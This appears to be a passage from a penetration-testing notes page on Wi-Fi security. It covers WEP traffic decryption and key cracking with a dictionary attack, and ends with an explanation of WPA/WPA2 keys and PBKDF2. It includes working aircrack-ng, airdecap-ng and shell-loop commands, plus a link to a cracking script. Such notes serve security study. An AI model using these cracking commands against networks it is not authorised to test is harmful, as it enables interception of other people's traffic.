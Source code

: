 <img src="./images/wep_attack_arp_replay.png" width="800"/>

### Decrypt traffic
Once the key is retrieve attacker can decrypt traffic for other devices.  

- WireShark (GUI)
- Airdecap-ng (CLI)

### WEP Cracking alternative
In case you don't have enought IVs to recover the key you can use dictionnary attack.  

Validate the current capture file
```
airodump-ng -r WEP-capture.cap
```

Creating the the hex wordlist from the password wordlist or use this [python script](https://gist.githubusercontent.com/tbhaxor/170894df0d43fd23eae49b0b20442c27/raw/3652d81819f13de7426167cf7390f051f5b30a4f/wep_decrypt.py)
```
for i in $(cat 1000000-password-seclists.txt); do echo $i | od -A n -t x1 | sed 's/ *//g'; done >> hex_wordlist.txt
python3 crack.py 1000000-password-seclists.txt WEP-Advanced.cap 00:21:91:D2:8E:25
```

Recover and decrypt traffic using hex(password) dictionnary and [airdecap-ng](https://www.aircrack-ng.org/doku.php?id=airdecap-ng)
```
for hex in $(cat hex_wordlist.txt); do airdecap-ng -w $hex WEP-capture.cap; done
```

# WPA / WPA2
- WPA TKIP (Based on WEP) - Intermediate solution by Wi-Fi Alliance / Hardware change not required
- WPA2 CCMP (Based on AES)

### TKIP - Temporary Key Integrity Protocol

### 4 way handhsake and encryption keys

- PassPhrase (password)
- PSK (Pre shared key)
- PMK (Pairwise Master Key)
- PTK (Pairwise Transient Key)
- GTK (Group Temporal Key)
- GMK (Group Master Key)

--> In PSK authentication, the PMK is the same thing as PSK. *PMK=PSK*.

WPA/WPA2 use **PBKDF2** (Password Based Key Derivation Function).    

*PMK/PSK* = PBKDF2(PassPhrase, SSID, ssidLen, 4096, 256)  
--> 4096 = Number of iterations or times the passphrase is hashed  
--> 256 = Intended Key Length of PSK in bits 
